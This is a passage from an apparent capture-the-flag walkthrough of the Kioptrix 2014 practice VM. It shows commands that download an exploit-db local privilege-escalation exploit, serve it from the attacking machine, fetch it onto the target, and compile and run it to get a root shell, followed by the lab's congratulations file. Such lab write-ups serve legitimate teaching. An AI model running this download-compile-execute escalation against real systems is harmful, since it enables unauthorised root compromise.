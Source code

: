 ```bash
root@kali:~$ wget https://www.exploit-db.com/download/26368

root@kali:~$ python3 -m http.server
```

On the attacking machine, we download the exploit, compile it and execute it, as we can see we gain root privileges.

```bash
kioptrix2014# cd /tmp
kioptrix2014# fetch -o 26368.c http://192.168.179.1:8000/26368
kioptrix2014# gcc 26368.c -o 26368
kioptrix2014# ./26368
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
```

```bash
/bin/csh -i
Warning: no access to tty (Bad file descriptor).
Thus no job control in this shell.
kioptrix2014# cd /root
kioptrix2014# head congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
```
